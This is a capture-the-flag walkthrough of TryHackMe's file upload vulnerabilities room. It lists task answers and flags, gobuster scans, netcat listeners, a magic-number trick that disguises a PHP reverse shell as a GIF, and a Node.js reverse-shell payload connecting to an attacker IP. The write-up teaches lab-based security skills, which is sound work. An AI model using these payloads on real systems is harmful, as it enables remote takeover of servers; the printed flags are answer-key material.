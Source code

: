 # Upload Vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
https://tryhackme.com/room/uploadvulns
{% endembed %}

## Task 4 Overwriting Existing Files

#### What is the name of the image file which can be overwritten?

![](<../../.gitbook/assets/Screenshot from 2022-04-16 12-55-22.png>)

{% hint style="success" %}
`mountains.jpg`
{% endhint %}

#### Overwrite the image. What is the flag you receive?

```bash
wget https://i.imgur.com/TIoA2DR.png
convert TIoA2DR.png mountains.jpg
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-07-30.png>)

{% hint style="success" %}
`THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}`
{% endhint %}

## Task 5 Remote Code Execution

#### Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

```bash
gobuster dir -u http://shell.uploadvulns.thm \
             -w /usr/share/dirb/wordlists/common.txt -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-20-51.png>)

{% hint style="success" %}
/`resources`
{% endhint %}

#### Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server?

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-18-40.png>)

```bash
nc -nvlp 4444
cat /var/www/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-19-39.png>)

{% hint style="success" %}
`THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`
{% endhint %}

## Task 6 Filtering

* _Extension Validation_
* _File Type Filtering_
  * _MIME validation_
  * _Magic Number validation_
* _File Length Filtering_
* _File Name Filtering_
* _File Content Filtering_

#### What is the traditionally predominant server-side scripting language?

{% hint style="success" %}
`php`
{% endhint %}

#### When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)?

{% hint style="success" %}
`whitelist`
{% endhint %}

#### What MIME type would you expect to see when uploading a CSV file?

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types" %}

{% hint style="success" %}
`text/csv`
{% endhint %}

## Task 7 Bypassing Client-Side Filtering

#### What is the flag in /var/www/?

```bash
gobuster dir -u http://java.uploadvulns.thm/ \
             -w /usr/share/dirb/wordlists/common.txt -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-57-27.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 13-59-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-00-45.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-01-17.png>)

```bash
nc -nvlp 4444
ls -lA /var/www
cat /var/www/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-02-37.png>)

{% hint style="success" %}
`THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`
{% endhint %}

## Task 8 Bypassing Server-Side Filtering: File Extensions

#### What is the flag in /var/www/?

```bash
gobuster dir -u http://annex.uploadvulns.thm \
             -w /usr/share/dirb/wordlists/common.txt -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-12-49.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-16-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-17-14.png>)

{% hint style="success" %}
`THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}`
{% endhint %}

## Task 9 Bypassing Server-Side Filtering: Magic Numbers

#### Grab the flag from /var/www/

```bash
gobuster dir -u http://magic.uploadvulns.thm/ \
             -w /usr/share/dirb/wordlists/common.txt -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-23-19.png>)

```bash
sed -i '1i GIF89a' php-reverse-shell.gif.php
file php-reverse-shell.gif.php
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-28-37.png>)

```bash
nc -nvlp 4444
cat /var/www/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-31-15.png>)

{% hint style="success" %}
`THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}`
{% endhint %}

## Task 11 Challenge

#### Hack the machine and grab the flag from /var/www/

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-54-48.png>)

```bash
gobuster dir -u http://jewel.uploadvulns.thm \
             -w /usr/share/dirb/wordlists/common.txt -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-39-40.png>) ![](<../../.gitbook/assets/Screenshot from 2022-04-16 14-42-37.png>)

<mark style="color:red;">**NB: Do not try a magic number bypass directly.**</mark>

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-44-45.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-47-36.png>)

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.6.9.176", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

```bash
wc js-reverse-shell.jpg
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-52-48.png>)

```bash
gobuster dir -u http://jewel.uploadvulns.thm/content/ \
             -w UploadVulnsWordlist.txt -x jpg -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-51-47.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-55-22.png>)

```bash
nc -nvlp 4444
cat /var/www/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-16 15-55-43.png>)

{% hint style="success" %}
`THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`
{% endhint %}

## Reference

{% embed url="https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints" %}
